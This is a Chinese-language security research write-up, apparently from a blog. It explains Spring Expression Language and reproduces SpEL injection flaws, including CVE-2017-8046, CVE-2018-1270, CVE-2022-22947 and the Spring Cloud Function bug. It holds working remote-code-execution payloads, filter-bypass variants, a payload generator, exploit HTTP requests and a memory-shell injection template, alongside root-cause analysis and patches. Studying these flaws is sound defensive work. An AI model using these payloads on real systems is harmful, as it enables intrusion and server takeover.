## SpEL

 >**Spring Expression Language**（简称**SpEL**）是一个支持查询和操作运行时对象导航图功能的强大的表达式语言. 它的语法类似于传统EL，但提供额外的功能，最出色的就是函数调用和简单字符串的模板函数。

SpEL使用`#{}`作为定界符，所有在大括号中的字符都将被认为是SpEL表达式，在其中可以使用SpEL运算符、变量、引用bean及其属性和方法等。

### 简单例子

`person.java`

```java
public class Person {
    private String name;

    public void setName(String name){
        this.name  = name;
    }
    public void getName(){
        System.out.println("Your name : " + name);
    }
}
```

`Beans.xml`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
    http://www.springframework.org/schema/beans/spring-beans-3.0.xsd ">

    <bean id="person" class="com.example.springecho.start.Person">
        <property name="name" value="#{'Theoyu'} is #{600+66}" />
    </bean>

</beans>
```

`Main.java`

```java
public class Main {
    public static void main(String[] args) {
        ApplicationContext context = new ClassPathXmlApplicationContext("Beans.xml");
        Person person = (Person) context.getBean("person");
        person.getName();
    }
}
```

输出：`Your name : Theoyu is 666`

### Expression 

SpEL的用法有三种形式，一种是在注解@Value中；一种是XML配置；最后一种是在代码块中使用Expression。我们说一下后者。

>SpEL 在求表达式值时一般分为四步，其中第三步可选：
>
>1.创建解析器：**SpEL 使用 ExpressionParser 接口表示解析器，提供 SpelExpressionParser 默认实现；**
>
>2.解析表达式：使用 ExpressionParser 的 parseExpression 来解析相应的表达式为 Expression 对象。
>
>3.构造上下文：准备比如变量定义等等表达式需要的上下文数据。
>
>4.求值：通过 Expression 接口的 getValue 方法根据上下文获得表达式值。

```java
ExpressionParser parser = new SpelExpressionParser();
Expression express =  parser.parseExpression("('Hello' + ' Theoyu').concat(#end)");
EvaluationContext context = new StandardEvaluationContext();
context.setVariable("end", "!");
System.out.println(express.getValue(context));
```

在SpEL表达式中，使用`T(Type)`运算符会调用类的作用域和方法。换句话说，就是可以通过该类类型表达式来操作类。

常见Poc：@[**Mi1k7ea**](https://www.mi1k7ea.com/)

```java
// Runtime
T(java.lang.Runtime).getRuntime().exec("calc")
T(Runtime).getRuntime().exec("calc")

// ProcessBuilder
new java.lang.ProcessBuilder({'calc'}).start()
new ProcessBuilder({'calc'}).start()

******************************************************************************
// Bypass技巧

// 反射调用
T(String).getClass().forName("java.lang.Runtime").getRuntime().exec("calc")

// 同上，需要有上下文环境
#this.getClass().forName("java.lang.Runtime").getRuntime().exec("calc")

// 反射调用+字符串拼接，绕过如javacon题目中的正则过滤
T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})

// 同上，需要有上下文环境
#this.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})

// 当执行的系统命令被过滤或者被URL编码掉时，可以通过String类动态生成字符，Part1
  //calc
new java.lang.ProcessBuilder(new java.lang.String(new byte[]{99,97,108,99})).start()
  //open -a Caculator
  new java.lang.ProcessBuilder(new java.lang.String(new byte[]{111, 112, 101, 110, 32, 45, 97, 32, 67, 97, 108, 99, 117, 108, 97, 116, 111, 114})).start()

// 当执行的系统命令被过滤或者被URL编码掉时，可以通过String类动态生成字符，Part2
T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(108)).concat(T(java.lang.Character).toString(99)))

// JavaScript引擎通用PoC
T(javax.script.ScriptEngineManager).newInstance().getEngineByName("nashorn").eval("s=[3];s[0]='cmd';s[1]='/C';s[2]='calc';java.la"+"ng.Run"+"time.getRu"+"ntime().ex"+"ec(s);")

T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval("xxx"),)

// JavaScript引擎+反射调用
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",T(String[])).invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(T(String).getClass().forName("java.l"+"ang.Ru"+"ntime")),new String[]{"cmd","/C","calc"})),)

// JavaScript引擎+URL编码
// 其中URL编码内容为：
// 不加最后的getInputStream()也行，因为弹计算器不需要回显
T(org.springframework.util.StreamUtils).copy(T(javax.script.ScriptEngineManager).newInstance().getEngineByName("JavaScript").eval(T(java.net.URLDecoder).decode("%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%63%61%6c%63%22%29%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29")),)

// 黑名单过滤".getClass("，可利用数组的方式绕过，还未测试成功
''['class'].forName('java.lang.Runtime').getDeclaredMethods()[15].invoke(''['class'].forName('java.lang.Runtime').getDeclaredMethods()[7].invoke(null),'calc')
```

生成poc：

```python
message = input('Enter message to encode:')

poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])

for ch in message[1:]:
   poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch) 

poc += ')}'

print(poc)
```

## Error Page 表达式注入

### 影响版本

Springboot：

- 1.1.0-1.1.12
- 1.2.0-1.2.7
- 1.3.0

同时要求错误页面有用户可控的输出值

### 漏洞复现

这里我采用springboot 1.2.0

```xml
<spring-boot.version>1.2.0.RELEASE</spring-boot.version>
```

controller：

```java
@RestController
public class Hello {
    @RequestMapping("hello")
    public String hello(String input){
        throw new IllegalStateException(input);
    }
}
```

Poc:

`?input=
${T(java.lang.Runtime).getRuntime().exec(new java.lang.String(new byte[]{111, 112, 101, 110, 32, 45, 97, 32, 67, 97, 108, 99, 117, 108, 97, 116, 111, 114}))}`


### 漏洞分析

先定位到`org.springframework.boot.autoconfigure.web.ErrorMvcAutoConfiguration.SpelView`，在`render`方法下打下断点：


先从**request**中读取了变量，然后存储到map中，以设置上下文属性。这里的**template**，就是错误页面模版，其中包含好几个SpEL表达式（表达式里map中的key）：

```
<html><body><h1>Whitelabel Error Page</h1><p>This application has no explicit mapping for /error, so you are seeing this as a fallback.</p><div id='created'>${timestamp}</div><div>There was an unexpected error (type=${error}, status=${status}).</div><div>${message}</div></body></html>
```

跟进`String result = this.helper.replacePlaceholders(this.template, this.resolver);`


这里while循环会一直处理**template**中有前缀`${`的字符串，提取出来，然后`placeholderResolver.resolvePlaceholder(placeholder)`去解析map中相应key所对应的value。

~~其实分析了log4j2后，感觉这类因为字符串format所触发的漏洞都很类似。~~

在`resolvePlaceholder()`中，从context的map中拿到message对应的value，也就是我们构造的poc，同时这里还会经过一次`htmlEscape()`，预防xss，这也解释了为什么我们构造`open -a Calculator`字符串需要用到`new java.lang.String(new byte[]{111, 112, 101, 110, 32, 45, 97, 32, 67, 97, 108, 99, 117, 108, 97, 116, 111, 114})`


之后，因为我们构造的语句是包裹在`${}`中的，所以还会经过一轮`resolvePlaceholder()`，也就到了最终的sink点


### 漏洞修复

[官方补丁](https://github.com/spring-projects/spring-boot/commit/edb16a13ee33e62b046730a47843cb5dc92054e6)

新增了一个`NonRecursivePropertyPlaceholderHelper`类用以防止递归解析。

简单来说就是每次解析表达式前，判断是默认的解析，还是进入递归的解析，后者直接return null。

另外在2+版本以上好像springboot取消了Whitelabel Error Page报错输出，也可能是我没找着... 如果有知道的师傅还请指教。

## CVE-2016-4977

**Spring Security OAuth2 远程命令执行漏洞（CVE-2016-4977）**

>Spring Security OAuth 是为 Spring 框架提供安全认证支持的一个模块。在其使用 whitelabel views 来处理错误时，由于使用了Springs Expression Language (SpEL)，攻击者在被授权的情况下可以通过构造恶意参数来远程执行命令。

使用了**whitelabel views**，本质上和上面介绍的一样，不过说了。


## CVE-2017-8046

**Spring Data Rest 远程命令执行漏洞（CVE-2017-8046）**

>Spring Data REST是一个构建在Spring Data之上，为了帮助开发者更加容易地开发REST风格的Web服务。在REST API的Patch方法中（实现[RFC6902](https://tools.ietf.org/html/rfc6902)），path的值被传入`setValue`，导致执行了SpEL表达式，触发远程命令执行漏洞。

### 影响版本

- Spring Data REST versions < 2.5.12, 2.6.7, 3.0 RC3
- Spring Boot version < 2.0.0M4
- Spring Data release trains < Kay-RC3

### 漏洞复现

环境有两种方式搭建，一是选择[漏洞Demo jar包](https://github.com/cved-sources/cve-2017-8046/blob/master/build/spring-data-rest.jar)，然后本地运行并设置调试端口，二是下载源码修改版本，这里我选择后者。

使用Spring官方教程：https://github.com/spring-guides/gs-accessing-data-rest.git
下载后包含多个模块，使用其中的complete项目。

修改pom依赖文件中的SpringBoot版本：

```xml
<parent>
   <groupId>org.springframework.boot</groupId>
   <artifactId>spring-boot-starter-parent</artifactId>
   <version>1.5.6.RELEASE</version>
   <relativePath/> <!-- lookup parent from repository -->
</parent>
```

之后删除test下的**AccessingDataRestApplicationTests**，这里的**org.junit.jupiter.api**包会有一些问题。

再加一个**application.properties**改一下端口，每次都和burpsuite占用了有点难受。

运行**AccessingDataRestApplication**即可启动，页面返回：

```json
{
  "_links" : {
    "people" : {
      "href" : "http://ty.com:8081/people{?page,size,sort}",
      "templated" : true
    },
    "profile" : {
      "href" : "http://ty.com:8081/profile"
    }
  }
}
```

`/people`显示已有哪些创建了的用户，而`/profile`只有一个子目录`/profile/people`、其用来配置people页面的字段属性等信息。

我们先使用**POST**创建一个用户：



通过**GET**得到用户信息：

```json
{
  "firstName" : "Zeryu",
  "lastName" : "O",
  "_links" : {
    "self" : {
      "href" : "http://ty.com:8081/people/1"
    },
    "person" : {
      "href" : "http://ty.com:8081/people/1"
    }
  }
}
```

 而漏洞点在**PATCH**请求上，**PATCH**字面意思是补丁，实际上就是对原有数据的增删改查：

如果我们原有数据：

```json
{
  "A": "foo",
  "B": "bar"
}
```

发送这样的**PATCH**请求：

```json
[
  { "op": "replace", "path": "/A", "value": "boo" },
  { "op": "add", "path": "/C", "value": "demo" },
  { "op": "remove", "path": "/B" }
]
```

结果就会变为：

```json
{
  "A": "Boo",
  "C": "demo"
}
```

在原先的例子上，我们发送一个**PATCH**请求：



修改**path**值为恶意命令：

```json
[
  { "op": "replace", 
  "path": "T(java.lang.Runtime).getRuntime().exec('open -a Calculator')/lastName", 
  "value": "HACKER" 
 }
]
```

注意在PATH中`/`不可缺少，后面分析会再说：



### 漏洞分析

我们定位到 **spring-data-rest-webmvc-2.6.6.RELEASE.jar**的 `org.springframework.data.rest.webmvc.config.JsonPatchHandler:apply()`



这里判断了请求方法是否为 **PATCH**，然后判断Content-Type是否为**application/json-patch+json**，之后进入`applyPatch()`方法：



以上调用链，我们把注意力放在第三个图里，其提取了op中的值，进入到对应的方法中



这里对path中的`/`进行了分割，这也就解释了为什么path需要`/`，同时第一张图中4个赋值，最后的**spelExpression**也就是漏洞的关键，最后结束返回了一个**Patch**。

之后，再一一回到最初的`this.getPatchOperations(source).apply(target, target.getClass())`的apply方法：



之后进入spel的setValue方法，造成RCE。

### 漏洞修复

对path进行了合法性校验：

```java
String pathSource = Arrays.stream(path.split("/"))//
        .filter(it -> !it.matches("\\d")) // no digits
        .filter(it -> !it.equals("-")) // no "last element"s
        .filter(it -> !it.isEmpty()) //
        .collect(Collectors.joining("."));
```

## CVE-2018-1270

**Spring Messaging 远程命令执行漏洞（CVE-2018-1270）**

>spring messaging为spring框架提供消息支持，其上层协议是STOMP，底层通信基于SockJS，
>
>在spring messaging中，其允许客户端订阅消息，并使用selector过滤消息。selector用SpEL表达式编写，并使用`StandardEvaluationContext`解析，造成命令执行漏洞。

### 影响版本

- Spring Framework 5.0 to 5.0.4
- Spring Framework 4.3 to 4.3.14
- Older unsupported versions are also affected

### 漏洞复现

下载官方教程：`git clone https://github.com/spring-guides/gs-messaging-stomp-websocket`，之后切换到漏洞版本的分支：`cd  gs-messaging-stomp-websocket`，`git checkout 6958af0b02bf05282673826b73cd7a85e84c12d3` 

打开app.js文件，修改`connect()`函数：

```js
function connect() {
    var header  = {"selector":"T(java.lang.Runtime).getRuntime().exec('open -a Calculator')"};
    var socket = new SockJS('/gs-guide-websocket');
    stompClient = Stomp.over(socket);
    stompClient.connect({}, function (frame) {
        setConnected(true);
        console.log('Connected: ' + frame);
        stompClient.subscribe('/topic/greetings', function (greeting) {
            showGreeting(JSON.parse(greeting.body).content);
        },header);
    });
}
```



之后重新点击Connect，再随意send一段内容：



因为连接是基于**stomp**协议，我们还可以在协议层直接修改：

正常**connect**，**burpsuite** 所抓取的内容：

`["SUBSCRIBE\nid:sub-0\ndestination:/topic/greetings\n\n\u0000"]`

修改为：`["SUBSCRIBE\nid:sub-0\ndestination:/topic/greetings\nselector:T(java.lang.Runtime).getRuntime().exec('open -a Calculator')\n\n\u0000"]`，增加了一个selector。

之后随意发送一段内容，弹出计算器。

### 漏洞分析

从第二种复现方法中，我们可以看出来，漏洞的source点在于client端发送的`SUBSCRIBE`命令中，根据[官方文档](https://stomp.github.io/stomp-specification-1.0.html#frame-SUBSCRIBE)的描述，我们终点放在这一段：



当发送`SUBSCRIBE`命令时，Stomp支持*selector* header，该选择器充当基于内容路由的筛选器。

定位到`org.springframework.messaging.simp.broker.DefaultSubscriptionRegistry.addSubscriptionInternal()`：

点击 connect后，js发送建立订阅的stomp请求，代码从这获取了header，并创建了expression，注册到了`subscriptionRegistry`中。



但是rce的触发点不是在connect中，而是send。

当我们点击send后，会调用`org.springframework.messaging.simp.broker.SimpleBrokerMessageHandler.sendMessageToSubscribers()`



逐步跟进到`filterSubscriptions()`



先通过两个for循环，拿到了我们之前在`subscriptionRegistry`中注册的sub，然后获取了sub中的expression，通过`expression.getValue`触发SpEL RCE漏洞。

### 漏洞修复

用`SimpleEvaluationContext`来替代了`StandardEvaluationContext`，也就是采用了SpEL表达式注入漏洞的通用防御方法。

## CVE-2022-22947

>Spring Cloud Gateway是Spring中的一个API网关。其3.1.0及3.0.6版本（包含）以前存在一处SpEL表达式注入漏洞，当攻击者可以访问Actuator API的情况下，将可以利用该漏洞执行任意命令。

### 影响版本

- Spring Cloud Gateway 3.0.6-3.1.0

### 漏洞复现

```
git clone https://github.com/spring-cloud/spring-cloud-gateway
cd spring-cloud-gateway
git checkout v3.1.0
```

运行Module `spring-cloud-gateway-sample`

 发送POST请求创建路由

```http
POST /actuator/gateway/routes/theoyu HTTP/1.1
Host: ty.com:8081
Content-Length: 327
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:8081
Content-Type: application/json
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{
  "id": "theoyu",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{T(java.lang.Runtime).getRuntime().exec(\"open -a Calculator\")}"
    }
  }],
  "uri": "http://example.com"
}
```

发送POST请求刷新路由缓存，触发Spel注入漏洞

```http
POST /actuator/gateway/refresh HTTP/1.1
Host: ty.com:8081
Content-Length: 0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://ty.com:8081
Content-Type: application/json

```



### 漏洞分析

先看看官网对Spring Cloud Gateway 的描述：



>Clients make requests to Spring Cloud Gateway. If the Gateway Handler Mapping determines that a request matches a route, it is sent to the Gateway Web Handler. This handler runs the request through a filter chain that is specific to the request. The reason the filters are divided by the dotted line is that filters can run logic both before and after the proxy request is sent. All “pre” filter logic is executed. Then the proxy request is made. After the proxy request is made, the “post” filter logic is run.

客户端发起请求给网关，网关处理映射找到一个匹配的路由，然后发送该给网关的Web处理器。处理器会通过一条特定的Filter链来处理请求，最后会发出代理请求，Filter 不仅仅做出预过滤，代理请求发出后也会进行过滤。

那这个网关允许哪些操作呢？

| ID              | HTTP Method | Description                                                  |
| :-------------- | :---------- | :----------------------------------------------------------- |
| `globalfilters` | GET         | Displays the list of global filters applied to the routes.   |
| `routefilters`  | GET         | Displays the list of `GatewayFilter` factories applied to a particular route. |
| `refresh`       | POST        | Clears the routes cache.                                     |
| `routes`        | GET         | Displays the list of routes defined in the gateway.          |
| `routes/{id}`   | GET         | Displays information about a particular route.               |
| `routes/{id}`   | POST        | Adds a new route to the gateway.                             |
| `routes/{id}`   | DELETE      | Removes an existing route from the gateway.                  |

以上的每个执行点都是以`/actuator/gateway`为基础。

我们看看如何创建一个路由：

>To create a route, make a `POST` request to `/gateway/routes/{id_route_to_create}` with a JSON body that specifies the fields of the route (**see Retrieving Information about a Particular Route**)

官方提示我们根据检索路由的返回信息来创建：



从之前来看，**filter** 是最重要的，但官网文档并没有给出实例，不过也不重要，根据之前的poc和触发点，我们大概可以明白以下两点：

- Source为**AddResponseHeader**型的filter
- Sink为Spel中的 **StandardEvaluationContext**

现在我们回到源码，尝试把这两点联系起来。

全局搜索**StandardEvaluationContext**，可以定位到`org.springframework.cloud.gateway.support#ShortcutConfigurable$getValue`，下个断点看一看：



那么触发点的确没问题，至于怎么和**AddResponseHeader**联系起来，其实只是一个很简单的继承关系。

>**AddResponseHeaderGatewayFilterFactory** 的 **apply** 方法中的**NameValueConfig**继承于 **AbstractNameValueGatewayFilterFactory**
>
>**AbstractNameValueGatewayFilterFactory** 继承于 **AbstractGatewayFilterFactory**
>
>**AbstractGatewayFilterFactory** 实现了 **GatewayFilterFactory** 接口
>
>**GatewayFilterFactory** 接口继承于 **ShortcutConfigurable**

那Source是否只有`AddResponseHeader`呢？其实并不是，继承了**AbstractNameValueGatewayFilterFactory**的类大多都含有**NameValueConfig**方法，其**getValue**才是真正的source点。



这里我们选择`AddRequestHeader`做测试：



### 构造回显

我们知道如果Spel表达式注入想要直接回显，那么需要一个返回一个表达式计算结果，比如**Error Page**表达式注入就是这种类型，但在**Spring Cloud Gateway**中就巧在了**AddResponseHeaderGatewayFilterFactory**会把Spel表达式计算的结果放入Response中，之后可以利用GET请求拿到结果。

```json
{
  "id": "theoyu",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```



### 注入内存木马

C0ny1师傅在[文章](https://gv7.me/articles/2022/the-spring-cloud-gateway-inject-memshell-through-spel-expressions/)中提到利用该漏洞注入Netty型以及Spring型内存木马，Netty不太了解，有机会可以学习一下。

```
#{T(org.springframework.cglib.core.ReflectUtils).defineClass('Memshell',T(org.springframework.util.Base64Utils).decodeFromString('base64'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject(@requestMappingHandlerMapping)}
```


## Spring Cloud Function

~~躺在床上刷会Twitter，忽然瞅见了有师傅发截图，还是爬起来尝试复现一下～~~

>Spring Cloud Function 是Spring cloud中的serverless框架 ，其`RoutingFunction` 类的 apply 方法将请求头中的`spring.cloud.function.routing-expression`参数作为 Spel 表达式进行处理，造成 Spel 表达式注入漏洞。

### 影响版本

3.0.0.RELEASE~3.2.2

并且`application.properties`中配置

```
spring.cloud.function.definition=functionRouter
```

###  漏洞复现

在pom中使用`3.2.1`版本的spring-cloud-function，样例采用官方[function-sample-pojo](https://github.com/spring-cloud/spring-cloud-function/tree/main/spring-cloud-function-samples/function-sample-pojo)，修改application.properties，加上`spring.cloud.function.definition:functionRouter`。

启动springboot后，发送post请求：

```http
POST / HTTP/1.1
Host: ty.com:8081
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("open -a Calculator")
Upgrade-Insecure-Requests: 1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

xxx
```


### 漏洞分析

从[官方补丁](https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f#diff-01d5affef57305a3034bfb48185f34ae3d21f15e7f389851ac67035f7bd0dc7a)我们可以看到，漏洞的源头位于`org/springframework/cloud/function/context/config/RoutingFunction.java `的`apply()`方法。

那是从何定位到`RoutingFunction`的呢？从调用栈分析，正是我们的配置文件`spring.cloud.function.definition:functionRouter`所决定。


回到`apply()`方法，这里把input类型转化为Message，其中含有http请求的请求头信息。


进入到if语句，从请求头中获取了`spring.cloud.function.routing-expression`的值 ，跟进`functionFromExpression()`:


expression表达式采用`StandardEvaluationContext`类型的Context，导致了Spel表达式注入漏洞。

### 漏洞修复

在官方patch中，对从请求头获取的`spring.cloud.function.routing-expression`添加了`true`参数，在`functionFromExpression()`判断是否从请求头获取，是则使用`SimpleEvaluationContext`类型Contex处理。


